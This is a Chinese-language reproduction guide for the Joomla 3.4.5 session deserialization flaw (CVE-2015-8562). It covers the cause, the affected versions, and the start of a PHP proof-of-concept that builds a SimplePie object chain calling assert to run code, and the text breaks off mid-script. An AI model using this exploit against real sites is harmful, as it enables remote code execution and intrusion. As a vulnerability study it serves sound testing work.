 （CVE-2015-8562）Joomla 3.4.5 反序列化漏洞
==========================================

一、漏洞简介
------------

本漏洞根源是PHP5.6.13前的版本在读取存储好的session时，如果反序列化出错则会跳过当前一段数据而去反序列化下一段数据。而Joomla将session存储在Mysql数据库中，编码是utf8，当我们插入4字节的utf8数据时则会导致截断。截断后的数据在反序列化时就会失败，最后触发反序列化漏洞。

二、漏洞影响
------------

-   Joomla 1.5.x, 2.x, and 3.x before 3.4.6
-   PHP 5.6 \< 5.6.13, PHP 5.5 \< 5.5.29 and PHP 5.4 \< 5.4.45

三、复现过程
------------

我们不带User-Agent头，先访问一次目标主页，记下服务端返回的Cookie：

![](./resource/(CVE-2015-8562)Joomla3.4.5反序列化漏洞/media/rId24.png)

再用如下脚本生成POC：

    <?php
    class JSimplepieFactory {
    }
    class JDatabaseDriverMysql {

    }
    class SimplePie {
        var $sanitize;
        var $cache;
        var $cache_name_function;
        var $javascript;
        var $feed_url;
        function __construct()
        {
            $this->feed_url = "phpinfo();JFactory::getConfig();exit;";
            $this->javascript = 9999;
            $this->cache_name_function = "assert";
            $this->sanitize = new JDatabaseDriverMysql();
            $this->cache = true;
        }
    }
